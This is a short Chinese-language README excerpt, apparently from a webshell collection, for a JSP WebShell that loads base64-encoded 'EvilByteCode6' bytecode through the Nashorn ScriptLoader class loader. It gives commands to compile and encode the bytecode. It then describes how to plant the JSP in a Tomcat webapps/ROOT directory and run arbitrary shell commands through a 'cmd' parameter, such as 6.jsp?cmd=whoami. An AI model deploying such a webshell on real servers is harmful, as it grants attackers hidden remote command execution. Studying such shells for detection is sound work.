### jdk.nashorn.internal.runtime.ScriptLoader类加载器加载的JSP WebShell

生成字节码：
```
javac EvilByteCode6.java
cat EvilByteCode6.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问6.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/6.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```